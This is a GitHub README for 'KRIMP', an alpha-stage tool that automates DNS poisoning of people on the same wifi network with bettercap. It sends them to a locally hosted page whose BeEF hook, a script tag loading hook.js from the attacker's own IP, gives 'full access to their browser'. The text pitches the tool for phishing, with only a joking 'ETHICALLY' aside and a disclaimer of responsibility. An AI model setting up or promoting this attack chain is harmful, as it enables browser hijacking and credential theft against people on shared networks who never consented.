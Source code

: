 # KRIMP
```
                   ▄█   ▄█▄    ▄████████  ▄█    ▄▄▄▄███▄▄▄▄      ▄███████▄ 
                   ███ ▄███▀   ███    ███ ███  ▄██▀▀▀███▀▀▀██▄   ███    ███ 
                   ███▐██▀     ███    ███ ███▌ ███   ███   ███   ███    ███ 
                  ▄█████▀     ▄███▄▄▄▄██▀ ███▌ ███   ███   ███   ███    ███ 
                 ▀▀█████▄    ▀▀███▀▀▀▀▀   ███▌ ███   ███   ███ ▀█████████▀  
                   ███▐██▄   ▀███████████ ███  ███   ███   ███   ███        
                   ███ ▀███▄   ███    ███ ███  ███   ███   ███   ███        
                   ███   ▀█▀   ███    ███ █▀    ▀█   ███   █▀   ▄████▀      
                   ▀           ███    ███                                   
  ```
  
Do you ever want to phish someone (ETHICALLY) and u cant seem to find a good url? Well I got you covered. 

This tool automates the process of DNS poisoning a target on your wifi, by doing this you can make a custom URL and redirecting your IP, which is hosting apache, to this URL. Once the target is on this page, you will have full access to their browser because of the beEF hook.  

**This tool is in its alpha stage, more automation will come**

## Pre-requisites
1. You will need to have beEf installed
2. You will need to have bettercap installed
3. You will need to have gnome-terminal installed
4. You will need to have apache2 installed

You will also need an index.html file inside of your /var/www/html folder with a beef hook, add this to a html file to hook it with beef:

`<script src="http://<local ip>:3000/hook.js"></script>`

## Configurate the script
- Change the directories in the script to your installation of beEF and bettercap.

### Extra
At the moment, this tool is only used to hack people on your own wifi, more features will come over time, like over WAN.

#### Responsibility
I am not responsible for any actions u take with this tool.

